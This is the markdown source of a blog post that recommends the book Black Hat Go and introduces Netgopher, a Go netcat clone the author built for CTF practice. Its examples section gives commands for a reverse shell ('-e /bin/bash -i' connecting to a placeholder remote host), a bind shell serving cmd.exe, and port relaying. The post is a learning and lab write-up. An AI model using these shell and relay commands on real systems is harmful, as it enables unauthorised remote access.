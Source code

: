 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre).
excerpt: "New tool who dis?"
categories:
  - labs
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting 
around to reading for an age. Long story short - I loved the first couple of 
chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your offensive security, using Go will add a really nice new 
skillset to your box of tricks. Go will let you build tools (simple or complex, 
up to you!) that compile to a single (fairly small) 'blob', with simple 
concurrency and thread management, excellent cross-compilation (No Wine!) and 
a compilation/testing command that's almost as simple as developing a Python 
script.  

I'd suggest that working with Go like this is probably going to be a bit easier 
if you are familiar with some scripting or programming, even if it's just some 
simple usages or concepts, like variables, bits and bytes and so on. If you're
comfortable working with Bash or maybe a little bit of Python (even just being 
able to read these) you'll have a great start. but don't let that hold you back 
if you're keen! I've gone through the first chapter or two so far and in just 
a couple of evenings, the book has guided me through some really nice concepts
in such a simple way.

Most of my exposure to compiled languages comes from solving awkward Mathematical
problems at Univeristy, so learning Go was a little outfacing because I wanted
to avoid that again. So far it's been nothing like that, it's giving me serious 
Python vibes in the ease of drafting, testing and availability/usability of 
(mostly core) Libraries. I think I might be a convert! 

With all that said, If you're worried about the learning curve, you could always 
get the basic syntax and conventions down via Codeacademy, Sololearn etc. first,
then pick up something more technical like this, **just do it!**

# Netgopher

Enter Netgopher. *'What is that?'* I hear you cry? Well to be honest, it's the same 
example Netcat mimic (ish) that every person starting on Black Hat Go or Black Hat 
Python (Another No Starch belter) puts on their Github. That said, I've tried 
to make this super simple implementation of Netcat a bit more useful for myself
as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it 
up and added some better command line parsing and options goodness, whilst most 
of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do 
enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP 
connections, command execution and built-in  port relaying (my personal fave!). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection 
relay. A Pair of listeners are started, then a connecting relay is set up, by 
starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this 
script and see what it's capable of? If I can do this in a couple of evenings, 
you definately can! Read the source and play with Netgopher as set out below 
and happy hacking! 

The rest of this post is actually a glorified excerpt from the README for ng on 
my [Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel 
free to check that out too if you know where you're going from here.

# Installation

You can, **but probably shouldn't**, get Netgopher by running the following 
command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing via *go get* will only install ng in your local $GOPATH; 
additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller 
binary (to move around the network quickly), preferably with multi-platform 
support, so I can hack on Windows, Linux and more. So... **grab a copy of all the 
[released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**
, which have been cross compiled and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You 
can try this out with a listener/connection pair:

{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of 
listeners and connections.A listener is started, then a connection made from 
the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start a shell and connect back to a remote listener
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener
This is useful in certail cases because you can create as many conenctions 
as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward connections to another port
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this piqued your interest why not grab a copy of 
Netgopher and have a mess around, or read the source? If you have any thoughts, 
I welcome issues, pulls, emails, tweets and more, just hit one of the socials 
below. I hope I've insipired you to check out some Go, or even program a 
little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, 
[Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap 
sales of No Starch Press books- that's where I got my copy (in eBook form) and 
it might be a good idea to keep your eyes peeled for similar sales in future. 
Peace!
